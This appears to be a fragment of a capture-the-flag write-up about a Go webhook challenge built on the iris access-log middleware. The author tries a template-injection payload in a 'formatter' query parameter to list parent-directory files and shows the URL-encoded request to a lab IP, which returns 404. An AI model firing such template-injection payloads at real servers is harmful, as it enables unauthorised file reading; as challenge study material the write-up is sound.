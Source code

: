 Given source code and hint
hint: Start point to write the access log: [https://github.com/kataras/iris/blob/main/middleware/accesslog/accesslog.go#L960](https://github.com/kataras/iris/blob/main/middleware/accesslog/accesslog.go#L960)

 [webhook.zip](https://s.kryptos.id/files/a4e51960c3fa01cb98c0e2d21e1e56c7/webhook.zip?token=eyJ1c2VyX2lkIjozMSwidGVhbV9pZCI6bnVsbCwiZmlsZV9pZCI6MTF9.Z0FhWQ.0-wotm_ZtW0EwM2xgy5kJvAzloI "webhook.zip")

reading the Go documentation, the vulnerability might appear in `startLoggingHandler` function, possible exploit to do LFI via function
before that, I must have the request GET to /exec

when i try to post request like this
```
/exec?formatter={{range readdir ".."}}{{.Name}}{{"\n"}}{{end}}
```

with the url encoding become:

```
GET /exec?formatter=%7B%7Brange%20readdir%20%22..%22%7D%7D%7B%7B.Name%7D%7D%7B%7B%22%5Cn%22%7D%7D%7B%7Bend%7D%7D HTTP/1.1
Host: 152.118.201.242:9012
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:132.0) Gecko/20100101 Firefox/132.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Upgrade-Insecure-Requests: 1
Priority: u=0, i

```

but the server is 404 error



